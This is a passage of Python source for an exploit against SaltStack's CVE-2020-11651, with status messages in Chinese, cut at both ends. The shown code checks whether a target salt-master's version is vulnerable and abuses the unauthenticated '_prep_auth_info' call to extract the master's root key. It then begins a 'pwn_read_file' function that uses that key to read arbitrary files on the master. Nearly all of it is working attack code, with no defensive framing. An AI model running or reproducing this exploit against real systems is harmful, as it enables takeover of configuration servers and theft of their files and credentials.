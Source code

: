 ```python
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')


def check_salt_version():
    print("[+] Salt 版本: {}".format(salt.version.__version__))

    vi = salt.version.__version_info__

    if (vi < (2019, 2, 4) or (3000,) <= vi < (3000, 2)):
        return True
    else:
        return False


def check_connection(master_ip, master_port, channel):
    print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
    sys.stdout.flush()
    try:
        channel.send({'cmd': 'ping'}, timeout=2)
        print('\033[1;32m可以连接\033[0m')
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;31m无法连接\033[0m")
        sys.exit(1)


def check_CVE_2020_11651(channel):
    sys.stdout.flush()
    # try to evil
    try:
        rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;32m不存在漏洞\033[0m")
    except:
        print("\033[1;32m未知错误\033[0m")
        raise
    else:
        pass
    finally:
        if rets:
            root_key = rets[2]['root']
            print("\033[1;31m存在漏洞\033[0m")
            return root_key

    return None


def pwn_read_file(channel, root_key, path, master_ip):
    # print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }
```